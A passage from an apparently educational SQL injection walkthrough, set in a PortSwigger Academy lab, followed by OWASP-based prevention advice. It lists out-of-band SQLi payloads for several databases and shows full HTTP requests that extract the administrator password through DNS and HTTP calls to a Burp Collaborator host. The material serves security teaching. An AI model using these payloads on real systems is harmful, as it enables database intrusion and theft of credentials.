If the page doesn't change based on SQLi payloads, if errors are handled succesfully and don't show any messages, and if sleep based SQLi does also not trigger, the possibility still exists that SQLi is present, but that another threat is used to execute the SQL query, but none of the earlier techniques would provide us with any feedback. In a situation like this, we could try to make the thread that is executing the SQL query do a DNS look up to a domain that we own. In this case, we are using BurpSuite's collaborator to do so. 

BurpSuite Collaborator is a server that provides custom implementations of various network services (including DNS), and allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. Support for Burp Collaborator is built in to BurpSuite Professional. 

Let's attempt to trigger an out-of-band DNS request to our BurpSuite Collaborator client through one of BurpSuite Academy's challenges. We are once again dealing with a Tracking cookie that is vulnerable to SQLi. 

In order to test for out-of-band interaction we can use several payloads, depending on the type of database that we are dealing with. An overview of payloads are illustrated below.

```SQL
// Oracle
SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual

// Oracle (requires elevated privileges)
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')

// Microsoft
exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'

// PostgreSQL
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'

// MySQL (works on Windows only)
`LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')`  
`SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`
```

When attempting the first Oracle query, we right away receive a hit, thus indicating that we are dealing with an Oracle database. 

```HTTP
GET /product?productId=3 HTTP/1.1
Cookie: TrackingId=G81claGlO3CbfGMs'||(SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://x20bulbo11nk2zeol7ybq7y1lsrjf8.oastify.com/"> %remote;]>'),'/l') FROM dual)--
```

Because the payload contains a lot of characters that can mess with its functionality, we URL encode it like so.

```HTTP
GET /product?productId=3 HTTP/1.1
Cookie: TrackingId=G81claGlO3CbfGMs'||(SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//x20bulbo11nk2zeol7ybq7y1lsrjf8.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual)--
```

We can see that it worked by taking a look at our BurpSuite collaborator client. 

<p>
	
</p>

Nice, we now know that the vulnerability exists. Now that we know that we can send DNS requests to our domain, we can use DNS to exfiltrate data from the target database. To do this, we can use one of the payloads described in BurpSuite's SQLi cheatsheet. 

```SQL
// Oracle
SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual

// Microsoft
declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')

// PostgreSQL
create OR replace function f() returns void as $$   declare c text;   declare p text;   begin   SELECT into p (SELECT YOUR-QUERY-HERE);   c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';   execute c;   END;   $$ language plpgsql security definer;   SELECT f();

// MySQL
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```

As we know we are dealing with an Oracle backend, we will be modifying the Oracle query in order to find out the password of the administrator user within the users table. Let's first ensure that our payload is working correctly, by trying to read "DUMMY" from the dual table. In order to execute this yourself, you have to URL encode it first. 

```HTTP
GET /product?productId=4 HTTP/1.1
Cookie: TrackingId=KQ2oEZVx9N2610IM'||(SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(DUMMY)||'.gcwu44l7bkx3cio7vq8u0q8kvb16pv.oastify.com/"> %remote;]>'),'/l') FROM dual)--
```

Which works, as we see a request sent to our Collaborator client. Now we can modify the payload to retrieve the password from the users table, where the username equals administrator. To do this, we create the following payload. 

```HTTP
GET /product?productId=4 HTTP/1.1
Cookie: TrackingId=KQ2oEZVx9N2610IM'||(SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(password)||'.gcwu44l7bkx3cio7vq8u0q8kvb16pv.oastify.com/"> %remote;]>'),'/l') FROM users WHERE username='administrator')--
```

Which we URL-encode and execute.

```HTTP
GET /product?productId=4 HTTP/1.1
Cookie: TrackingId=KQ2oEZVx9N2610IM'||(SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(password)||'.gcwu44l7bkx3cio7vq8u0q8kvb16pv.oastify.com/">+%25remote%3b]>'),'/l')+FROM+users+WHERE+username%3d'administrator')--
```

We get a hit in our Collaborator client. As we can infer from our payload, we are selecting the password from the user table, where username is administrator. This password is then added to the HTTP request sent to our Collaborator in the http://password.domain/ format. When we take a look at the HTTP request that was sent to our client, we can see that we indeed got a response with this format.

```HTTP
GET / HTTP/1.0
Host: twgrje8b6tavpoq1wpfj.gcwu44l7bkx3cio7vq8u0q8kvb16pv.oastify.com
Content-Type: text/plain; charset=utf-8
```

Indicating that the password is "twgrje8b6tavpoq1wpfj".

## How to Prevent SQL-injection Attacks
Now that we have seen some very basic and a few more advanced SQLi attacks, it is time to discuss how to prevent these vulnerabilities. There are four main ways of preventing SQLi, which are described within the SQL Injection Prevention Cheat Sheet which is available [here](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html). The cheatsheet describes the following 4 methods as its primary defenses.

1. Use of prepared statements (with parameterized queries)
2. Use of properly constructed stored procedures
3. Allow-list input validation
4. Escaping all user supplied input

Let's briefly discuss these four defenses.

### Use of Prepared Statements

The most important manner in which SQLi attacks can be prevented is through the careful use of parameterized queries, which ensure that user input cannot interfere with the structure of the intended SQL query. I'll use PortSwigger's example to illustrate this point. The following statement is vulnerable, because it allows users to directly supply user input within the SQL query.

```SQL
String query = "SELECT * FROM products WHERE category = '"+ input + "'"; Statement statement = connection.createStatement(); ResultSet resultSet = statement.executeQuery(query);
```

By parameterizing this query, we can prevent users from interfering with the structure of the query, and thus prevent SQLi.

```SQL
PreparedStatement statement = connection.prepareStatement("SELECT * FROM products WHERE category = ?"); statement.setString(1, input); ResultSet resultSet = statement.executeQuery();
```

### Use of Properly Constructed Stored Procedures
Stored procedures encapsulate query code at the server, rather than inside your application. This allows you to make changes to queries without having to recompile your application.

Stored procedures only directly prevent SQL injection if you call them in a paramerized way. If you still have a string in your application with the procedure name and concatenate parameters from user input to that string in your code you'll still be vulnerable to SQLi.

However, when used exclusively, stored procedures let you add some additional protection by making it possible for you to disable permissions to everything but the EXEC command. Aside from this, parameterized queries/prepared statements are normally cached by the server, and so are just like a stored procedure in nearly every respect.

### Allow-list Input Validation
By creating an allow-list of allowed table names and methods, the application can automatically either accept or deny user inputs that contain specific table names or functions and thus perform input validation. The example provided below is taken from [here](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html), and shows how table name validation is handled in code.

```Java
String tableName;

switch(PARAM):
  case "Value1": tableName = "fooTable";
                 break;
  case "Value2": tableName = "barTable";
                 break;
  ...
  default      : throw new InputValidationException("unexpected value provided" + " for table name");
```

When a table name is supplied that's not allowed to be requested, an exception is thrown. 

### Escaping All User Supplied Input
Finally we have the fourth defense mechanism, which is the implementation of proper escaping for all user supplied input. This should be used as a last resort, because escaped user input can sometimes be bypassed, and make a query vulnerable again. This defense should not be implemented without the three methods described above. By escaping user input, one can escape all possible bad characters from user supplied input, making any SQLi payload harmless. 

## Conclusion
Thanks for reading through my SQLi tutorial/blog/walkthrough or whatever category this may be categorized into. I hope it was just as valueable for you to read as it was for me to write. The next article in this series will discuss Authentication (bypasses). Don't forget to go through the challenges provided by BurpSuite's academy yourself, as they are very useful in understanding the more complex topics. 